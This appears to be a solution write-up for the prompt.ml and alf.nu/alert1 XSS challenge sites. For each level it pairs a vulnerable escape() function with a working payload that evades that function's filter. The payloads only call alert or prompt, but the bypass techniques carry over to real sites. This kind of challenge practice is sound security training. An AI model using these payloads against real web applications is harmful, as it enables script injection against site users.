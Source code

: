 # prompt.ml

### 0. Warmup

- Task
 
```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```js
"><svg onload=prompt(1)//
```

- HTML source

```html
<input type="text" value=""><svg onload=prompt(1)//">
```

### 1. Tag stripping

- Task

```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```html
<svg onload=prompt(1) // 
```

- HTML source

```html
<article><svg onload=prompt(1) // </article>
```

### 2. Parenthesis-less

- Task

```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```html
<script>eval.call`${'prompt\x281\x29'}`</script>
```

HTML source

```html
<script>eval.call`${'prompt\x281\x29'}`</script>
```

### 7. Splits

Task

```js
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

Solution

```html
"><script>/*#*/prompt/*#*/(1)/*#*/</script>
```

- HTML source

```html
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script>"></p>
```

# alf.nu/alert1

### 1. Warmup

- Task

```js
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```js
",alert(1),"
```

### 2. Adobe

- Task

```js
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```js
\");alert(1)//
```

### JSON

- Task

```js
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

-Solution

```js
</script><script>alert(1)//
```

### Markdown

- Task

```js
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```js
[[x|http://onerror=javascript:alert(1)//]]
```

### Skandia

- Task

```js
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```js
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

### JSON2

- Task

```js
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```js
</scrip</scriptt><script>alert(1)//
```
